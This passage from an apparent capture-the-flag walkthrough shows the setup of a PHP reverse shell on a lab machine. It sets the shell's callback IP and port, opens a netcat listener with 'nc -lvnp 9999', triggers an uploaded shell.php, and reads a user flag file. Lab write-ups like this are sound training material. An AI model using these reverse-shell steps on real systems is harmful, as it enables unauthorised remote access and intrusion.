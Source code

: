Now the last theing that you will need to change is the IP address and the port that your reverser shell will call out to.  
The IP address is going to be the IP address of your computer and the port number should be a higher port.   
```
  $ip = '10.8.2.222';  // CHANGE THIS
  $port = 9999;       // CHANGE THIS
```  
Before we pull the trigger on our exploit we need to set up a our listener.  
Command: `nc -lvnp 9999`  

Code Breakdown:
```
-l: listen mode, for inbound connects

-v: verbose [use twice to be more verbose]

-n: numeric-only IP addresses, no DNS

-p: local port number
```
Now that we have set up our listener we are going to fire off out exploit.  
Command: `firefox exploit.html`  
Once finished we will need to open up our browser and go to `/content/inc/ads` from here we will see our exploit. I chose to name mine shell.php. Yours will be whatever you named yours.  
Lets click on our exploite and see if it trips our listener.  
![listener](images/listener.png "listener")  

<br>
We have a successfull shell! Lets take a look aound and see if we are able to find any of our flages.  

If we use the `ls` command we can see that there is a user in the home folder. It seems to the none other then your everyday IT guy.  
![itGuy](images/itGuy.png "itGuy")  
Now that we know where the user.txt file is how about we see if it actally contains out flag.  
Command: `cat /home/itguy/user.txt`  
